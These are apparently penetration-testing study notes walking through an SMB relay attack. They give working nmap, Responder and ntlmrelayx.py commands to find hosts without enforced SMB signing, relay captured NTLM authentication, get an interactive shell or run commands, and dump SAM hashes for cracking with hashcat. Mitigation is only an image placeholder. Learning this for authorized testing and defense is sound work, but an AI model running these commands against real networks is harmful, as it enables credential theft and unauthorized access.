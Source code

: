 ### SMB Relay Attack

Instead of capturing a hash, we reuse that hash in order to gain access.  If you're catching hashes but aren't able to crack it.  
&ensp;	SMB Signing must be disabled or not enforced on the target.  This is default on workstations, not default on servers.  
&ensp;	Relayed user credentials must be admin on machine for any real value.  

See if SMB is even on and what it's settings are.  
&ensp;	`sudo nmap --script=smb2-security-mode.nse -p445 10.0.0.10 -Pn`  
&ensp;	Port 445 is SMB  
&ensp;	IP is target IP  
&ensp;	This may also show when running a -A on initial scans  
&ensp;	"Message signing enabled but not required" is the message you're looking for  
&ensp;&ensp;		You can also run scripts against a network range  
Create your targets.txt file with the IP's that you gathered that return "enabled but not required"  
&ensp;	`mousepad targets.txt`  
Change Responder settings to turn SMB and HTTP off  
&ensp;	`sudo mousepad /etc/responder/Responder.conf`  
Run Responder  
&ensp;	`sudo responder -I eth0 -dPv` - Again, the Interface depends on what interface you're using, tun0 for VPN connections  
Run ntlmrelayx.py  
&ensp;	`ntlmrelayx.py -tf targets.txt -smb2support`  
&ensp;&ensp;		-tf   is for 'target file'  
&ensp;&ensp;&ensp;		targets.txt is the list of targets that have been determined to be vulnerable  
&ensp;&ensp;			-i   is optional but will attempt to get you a prompt (interactive)  
&ensp;&ensp;&ensp;				This will get you a port to bind to with `nc 127.0.0.1 <port>`  
&ensp;&ensp;			-c   is optional but will run a command upon connection `-c "whoami"`  
This should kick out the SAM, copy those hashes and go have some fun with hashcat  

Mitigation for this  
![pic5](Images/pic5.png)  

